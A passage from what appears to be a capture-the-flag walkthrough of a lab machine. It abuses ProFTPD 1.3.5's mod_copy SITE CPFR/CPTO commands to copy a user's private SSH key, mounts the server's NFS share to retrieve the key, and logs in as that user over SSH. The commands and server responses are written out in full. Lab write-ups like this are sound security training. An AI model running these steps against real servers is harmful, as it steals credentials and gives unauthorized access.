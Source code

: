 ```
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
### As i read about The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

### So just copy the ssh key to var
```
 nc 10.10.101.17 21
```
```
SITE CPFR /home/kenobi/.ssh/id_rsa
```
```
SITE CPTO /var/tmp/id_rsa
```
```
└─$ nc 10.10.101.17 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.101.17]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

### We knew that the /var directory was a mount, Lets mount the /var/tmp directory to our machine.
```
mkdir /mnt/kenobiNFS
```
```
mount 10.10.101.17:/var /mnt/kenobiNFS
```
```
ls -la /mnt/kenobiNFS
```
### If u get any error doing this just install ```showmount``` command and all it pkg will start downloading with it.
### Copy id_rsa
```
cp /mnt/kenobiNFS/tmp/id_rsa .
```
### Change the permissions using chmod:
```
chmod 600 id_rsa
```
### Let log In using SSH
```
ssh kenobi@Ip -i id_rsa
```
```
└─# ssh kenobi@10.10.101.17 -i id_rsa 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
```